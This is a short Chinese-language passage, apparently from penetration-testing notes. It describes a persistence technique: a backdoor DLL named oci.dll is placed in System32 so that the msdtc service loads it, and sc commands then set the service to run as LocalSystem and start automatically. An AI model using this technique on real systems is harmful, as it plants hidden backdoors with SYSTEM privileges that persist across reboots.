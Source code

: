 `msdtc.exe`是微软分布式传输协调程序，开启之后会尝试加载三个dll文件,但是缺失`oci.dll`，所以把后门dll复制到`C:\Windows\System32`里面，然后设置如下:

```
sc qc msdtc
sc config msdtc obj= LocalSystem  //设置System启动，默认network
sc config msdtc start= auto
```